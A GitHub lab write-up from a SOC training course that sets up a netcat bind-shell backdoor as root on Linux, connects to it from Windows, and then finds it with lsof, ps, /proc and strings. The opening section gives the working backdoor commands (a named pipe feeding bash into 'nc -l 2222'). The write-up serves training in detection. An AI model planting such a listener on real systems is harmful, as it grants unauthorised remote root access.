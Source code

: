 # "Linux CLI Malware Detection: Netcat Backdoor

This lab is provided by Antisyphon Training's SOC Core Skills course. We will explore the setup and detection of backdoor malware using a netcat listener, a common tool for establishing unauthorized remote access. The exercise aims to simulate a real-world cyber threat scenario, providing hands-on experience in malware analysis and defense techniques. By leveraging the Linux Command Line Interface (CLI), we will detect and analyze the backdoor. 
<br>
<br>

## Create the malware 
- We will first sudo into root so that we can have a backdoor running root.
```
sudo su -
```
<br>
<br>

- This is a simple backdoor mechanism that uses netcat to create a network listener that pipes commands to and from a bash shell, allowing an attacker to remotely execute commands on the system by connecting to port 2222. 
```
mknod backpipe p
/bin/bash  0<backpipe | nc -l 2222 1>backpipe
```

![backdoor](https://github.com/trixiahorner/Linux_CLI/assets/162903587/d9187608-208a-4da0-99d3-70435d6ef994)
<br>
<br>

- We need the IP of our linux system so that we can connect
```
ifconfig
```
<br>
<br>

- Now let's connect from our windows system! Once connected, we can type some commands to ensure that it is working. As you can see, our Windows computer is connected to the simple Linux backdoor as root. This is the malware. Someone is listening.
```
ncat 172.17.231.122 2222
```

![netcat](https://github.com/trixiahorner/Linux_CLI/blob/main/images/C2.png?raw=true)
<br>
<br>

## Linux CLI Analysis of malware
- Now we will start our analysis from the Linux CLI. Let's hunt and find our malware. Open up a window for analysis.
```
sudo su -
```
<br>
<br>

- Using lsof we can see a listening device and an established connection
```
lsof -i -P
```

![lsof](https://github.com/trixiahorner/Linux_CLI/blob/main/images/C3.png?raw=true)
<br>
<br>

- We can look at the netcat process ID using the -p option. This will give us all the open files associated with the listed process ID (the netcat listener)
```
lsof -p 203
```

![lsof](https://github.com/trixiahorner/Linux_CLI/blob/main/images/C4.png?raw=true)
<br>
<br>

- We can look at the full processes using the ps command (-a for all, -u to sort by user, -x to include the processes uning a teletype terminal)
```
ps aux
```

![psaux](https://github.com/trixiahorner/Linux_CLI/blob/main/images/c5.png?raw=true)
<br>
<br>

- The proc directory allows us to see data associated with the various processes directly. Let's cd into this directory and list the contents
```
cd /proc/203
ls
```

![proc](https://github.com/trixiahorner/Linux_CLI/blob/main/images/c6.png?raw=true)
<br>
<br>

- We can run strings on the exe in this directory (piping it through less). This can be used to attemp to identify what exactly a program is doing. There is a lot
  going on, but if you keep clicking the space bar, you will see the actual usage information for netcat.
  Now we see that the malware is netcat.
```
strings ./exe | less
```

![proc](https://github.com/trixiahorner/Linux_CLI/blob/main/images/c7.png?raw=true)

![proc](https://github.com/trixiahorner/Linux_CLI/blob/main/images/c8.png?raw=true)

<br>
<br>


# Conclusion
This lab is crucial for understanding the behavior of backdoor malware and the methodologies used to identify and respond to such threats effectively.
